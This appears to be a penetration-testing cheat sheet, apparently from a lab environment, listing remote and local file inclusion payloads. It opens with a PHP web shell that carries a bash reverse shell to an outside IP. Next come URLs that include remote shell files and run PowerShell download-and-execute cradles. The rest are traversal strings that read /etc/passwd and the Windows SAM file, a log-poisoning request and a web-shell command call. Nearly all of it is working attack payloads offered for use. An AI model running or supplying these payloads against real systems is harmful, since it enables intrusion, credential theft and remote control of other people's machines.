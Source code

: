 File Inclusions

**// REMOTE FILE INCLUSION (RFI)**

echo "<?php echo shell_exec("bash -i >& /dev/tcp/192.168.119.246/443 0>&1");?>" > evil.txt
http:///action=/inc/config.php?basePath=http:///shell.php%00
http://10.11.1.8/internal/advanced_comment_system/index.php?ACS_path=http://:/test.txt%00
http://10.11.1.35/section.php?page=http://:/evil.txt&c=
http://10.11.1.50:9505/?search={.exec|C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://:/shell.bat').}
http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php?slogin_path=http://:/shell.txt?
http://192.168.131.10/menu.php?file=http:\:\evil.txt?cmd=powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http:\:\reverse-shell.bat'))"
http://192.168.131.10/menu.php?file=data:text/plain,"&cmd=powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://:/revshell.bat'))"

**// LOCAL FILE INCLUSION (LFI) & DIRECTORY TRAVERSAL**
http:///browse.php?p=source&file=../../../etc/passwd
wget http:///..%5C..%5C..%5CWindows%5CSystem32%5Cconfig%5CRegback%5CSAM.OLD
http://192.168.131.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http:\:\reverse-shell.bat'))"
https://10.2.2.86/browse.php?p=source&file=C:\xampp\apache\logs\access.log
http://10.11.1.35/section.php?page=/etc/passwd
http://10.11.1.73:8080/PHP/fileManager/fileManager/collectives/DG0/NewAccess/shell2.php?cmd=powershell -c .\shell.exe
http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=/usr/local/databases/hack.php
http://10.11.1.141:10000/unauthenticated/../../../../../etc/passwd
curl -l http://10.11.1.11/uploads/shell.php?cmd=whoami